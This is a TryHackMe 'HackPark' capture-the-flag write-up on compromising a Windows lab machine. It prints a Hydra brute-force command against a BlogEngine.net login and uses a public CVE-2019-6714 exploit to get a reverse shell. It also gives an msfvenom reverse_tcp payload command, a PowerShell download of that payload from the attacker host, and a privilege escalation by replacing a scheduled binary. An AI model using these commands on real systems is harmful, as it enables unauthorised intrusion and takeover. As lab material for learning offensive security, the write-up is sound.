 
# HackPark CTF Write-Up
# Challenge Title: HackPark

## Platform
TryHackMe

## Difficulty
Medium

## Description
Bruteforce a website's login with Hydra, identify and use a public exploit, then escalate your privileges on this Windows machine!

## Tools and Techniques Used
- Hydra
- Burp Suite
- Metasploit
- WinPEAS
- Linux commands (e.g., `ls`, `cat`)
- SSH
- Python script

## Step-by-Step Solution
**IP Addresses:**
- My IP address: 10.10.50.107
- Target machine IP address: 10.10.144.62

## Task 1: Deploy the Vulnerable Windows Machine

1. **Deploy the Machine:**
   After deploying the vulnerable Windows machine, I accessed its web server.

  ![HackParkScreenShot1](https://github.com/user-attachments/assets/d05c8d98-3cea-470e-be76-f5627615299d)

2. **Identify the Clown on the Homepage:**
   By examining the source code of the website, I found a clown image link:
   [Clown Image](http://10.10.144.62/image.axd?picture=/26572c3a-0e51-4a9f-9049-b64e730ca75d.jpg). I performed a reverse image search using Google and discovered that the clown's name is **Pennywise**.
![HackParkScreen2 0](https://github.com/user-attachments/assets/db3a1e3b-7f27-4fc0-8a8d-0a085848e704)
![HackParkScreen2](https://github.com/user-attachments/assets/063521ef-9b36-47e7-a01b-e9e8f5cca08e)

## Task 2: Brute-Forcing Login with Hydra

In the next step, I needed to brute-force the login using **Hydra**.

1. **Intercept the Request:**
   Using Burp Suite, I intercepted the request from the **Sign In** action.
![HackPark3](https://github.com/user-attachments/assets/c5a9b3bf-1ab6-4fd9-b0fb-f4fc20a83290)

   - **Request Type:** The login form uses the **POST** request type.

2. **Brute-Force Credentials:**
   With the request information, I executed the following command to find the credentials:

   ```
   hydra -l admin -P rockyou.txt 10.10.144.62 http-post-form "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Bjdg0T4vJInmW5tUM8x5txmfsq8hz6JGO83P0kbnaJq966zSeFeDAxLS%2BXyw4U4S%2FgpkPbUDHuPw14Mx2Q2QJRFxJ7kenDSk54xKXAp9wDV4gVOW3yEZCH93n0756GyaZ8EyMi58wMwEivOw0zpcHO8xp8e%2Bj32e7h3iv5zKqryGFUPE&__EVENTVALIDATION=31Qm85XIxQI11Fi3HPbRUY6kn21c%2F0zPSqk2UvIRBUu1Tt4QS4oLN1VfqrwJsGOUA5SWiSRdcq5xSwvpOpMlWpc%2FfuQa%2BRGsBlT0juZD%2BREOwscUWk%2BwRvwxsVfiEUUV6Hu35MTQshjrc21mdMKy7m8SMyNHNImtbJDftdJDzqYsNqF7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
   ```
![HackPark4](https://github.com/user-attachments/assets/37e9ff25-9ea6-43fb-b836-6e2f0d59f505)

   - I successfully found the password **1qaz2wsx**. The username was already evident in the source code, as it is the default credential for this blogengine.net.

3. **Hydra Capabilities:**
   Hydra is versatile, capable of brute-forcing various protocols beyond HTTP forms, including FTP, SSH, SMTP, and SMB.

## Task 3: Compromise the Machine

1. **Login to the Application:**
   Using the credentials `admin:1qaz2wsx`, I logged into the application and identified the version of blogengine.net being used, which is vulnerable to **CVE-2019-6714** due to path traversal vulnerabilities.

![HackPark5](https://github.com/user-attachments/assets/912d9863-3bb2-4c02-967c-6797c39a4fe8)

2. **Exploit Research:**
   I found an exploit for this vulnerability on Exploit-DB:
   [Exploit DB - CVE-2019-6714](https://www.exploit-db.com/exploits/46353).

3. **Upload Malicious File:**
   After editing the exploit with the correct attacker IP address and renaming the file appropriately, I uploaded it under the **Content Posts** section of blogengine:
![HackPark6](https://github.com/user-attachments/assets/c8ce9370-8849-49e8-ac77-aedc86bf4f7a)

![HackPark7](https://github.com/user-attachments/assets/b3b2275e-ad7e-4c06-8cb9-7d77ba240329)

4. **Set Up a Listener:**
   I configured a listener to catch the reverse shell.
![HackPark8](https://github.com/user-attachments/assets/307ea096-37b1-4622-a581-4147c3f0c068)


5. **Accessing the File:**
   Using a web browser, I navigated to the location of the uploaded file:

![HackPark9](https://github.com/user-attachments/assets/a81efce8-5eb8-4d9c-b2d0-c9e599219f4f)


   - This action successfully yielded a reverse shell.
![HackPark10](https://github.com/user-attachments/assets/8bb2689c-3948-4efb-9e33-bb5dee4e2ec6)

6. **Web Server User:**
   The final question was, **Who is the web server running as?** The answer is **iis apppool\blog**.

## Task 4: Windows Privilege Escalation

1. **Reverse Shell with Msfvenom:**
   I created another reverse shell using **msfvenom**:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.50.107 LPORT=4446 -f exe > reverse.exe
   ```
![HackPark10 0](https://github.com/user-attachments/assets/9b3c1e40-db48-434a-bedc-1e6ee60bfd35)


2. **Download Reverse Shell on Target:**
   Using PowerShell, I downloaded the reverse shell to the target machine:

   ```
   powershell -c wget "http://10.10.50.107:4448/reverse.exe" -outfile 'rev.exe'
   ```
![HackPark11](https://github.com/user-attachments/assets/a2475826-6a38-41dc-b430-b9942487654a)


3. **Configure Meterpreter:**
   I set up the Meterpreter session using Metasploit.
![MetaSploit1](https://github.com/user-attachments/assets/72bf2d24-1334-4011-a267-c4b8ffb44693)
![MetaSPloit2](https://github.com/user-attachments/assets/33aed50b-a42f-4181-8738-2cea88506f9c)
![MetaSploit3](https://github.com/user-attachments/assets/a30b0cd4-2e02-4888-8d3e-deb272fac578)



4. **OS Version:**
   I answered the following question regarding the OS version:
   - **What is the OS version of this Windows machine?**  
   Answer: **Windows 2012 R (6.3 Build 9600)**.

5. **Abnormal Service:**
   To find the abnormal service running, I performed further enumeration.
![UploadWinPeasReal](https://github.com/user-attachments/assets/962bf7bf-9ecd-4db9-829d-74d953b6525d)

6. **Open Shell and Run WinPEAS:**
   I opened a shell and executed **winPEAS**:
![Openning a shell](https://github.com/user-attachments/assets/9c3f20a8-1a88-430f-be71-4deed59fedc3)
![WinPEAS1](https://github.com/user-attachments/assets/f5fbed97-dc53-4634-a83c-afb16a67e836)


   - The answer to the question, **What is the name of the abnormal service running?** is **WindowsScheduler**.

7. **Exploit the Abnormal Service:**
   I located a suspicious file:
   - **File Path:** `c:\Program Files (x86)\SystemScheduler\Events\20198415519.INI_LOG.txt`.

   - **What is the name of the binary you're supposed to exploit?**  
   Answer: **Message.exe**.

8. **Final Reverse Shell:**
   To escalate privileges, I created another TCP reverse shell, renaming it to **Message.exe** to run with administrator privileges.
![GettingRoot](https://github.com/user-attachments/assets/2addff4f-43f8-42fa-bcc2-5ba9df3e6530)


   - This resulted in root access on the box:
![Whoami](https://github.com/user-attachments/assets/c0ee0dd6-08b8-4415-8b78-561c2deb2f55)


9. **Capture Flags:**
   I retrieved the flags:
   - **Flag for Jeff:**
  
![FlagJeff](https://github.com/user-attachments/assets/a3dd2257-fcd1-49d7-bd7b-a5fef17ef07d)

   - **Root Flag:**

![Root](https://github.com/user-attachments/assets/81ff9633-9e01-435e-b3f6-4b940585fbec)

   - **System Information:**
![DateWithLinPEAS](https://github.com/user-attachments/assets/bfb1ffa1-f2fa-408b-8bea-109b1ac19702)

![SystemInfoAdmin](https://github.com/user-attachments/assets/ee4377a3-dcd9-471b-ac89-772735e88242)

   - **Original Install Time:**
     - Using **winPEAS**, the original install time was found to be **8/3/2019, 10:43:23 AM**.
